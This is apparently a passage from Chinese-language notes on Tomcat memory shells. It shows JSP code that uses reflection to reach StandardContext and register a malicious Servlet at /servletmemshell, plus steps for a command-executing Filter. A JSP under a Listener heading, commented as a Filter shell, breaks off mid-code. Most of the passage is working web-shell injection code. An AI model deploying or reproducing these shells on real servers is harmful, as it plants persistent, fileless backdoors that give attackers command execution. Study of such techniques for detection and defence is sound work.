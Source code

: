 ```jsp
        }
    };
	//创建Wrapper对象来封装前面new Servlet对象
    org.apache.catalina.Wrapper newWrapper = standardContext.createWrapper();
    newWrapper.setName(name);
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());
	//添加路由 为Wrapper对象添加 map映射
    standardContext.addChild(newWrapper);
    standardContext.addServletMappingDecoded("/servletmemshell",name);
    response.getWriter().write("inject success");

%>
<html>
<head>
    <title>servletshell</title>
</head>
<body>

</body>
</html>
```

##### **动态注册Filter**

- 1、首先通过反射，从request中获取Tomcat中控制Web应用的Context（StandardContext对象）
- 2、利用获取的上下文StandardContext对象获取filterconfigs对象
- 3、创建一个恶意Filter对象并重写其doFilter方法，在其中实现命令执行并通过response返回，最后filterChain传入后面的filter
- 4、创建FilterDef对象并利用刚刚创建的Filter对象来初始化，并新建一个FilterMap对象，为创建的FilterDef对象添加URL映射
- 5、利用创建FilterConfig对象并使用刚刚创建的FilterDef对象初始化，最后将其加入FilterConfigs里面，等待filterChain.dofilter调用

##### **动态注册Listener**

```jsp
//适用于tomcat8
<%--
测试可用添加内存马：/Filtershell
--%>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>


<%
    final String name = "shell";
    // 获取上下文，即standardContext
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
```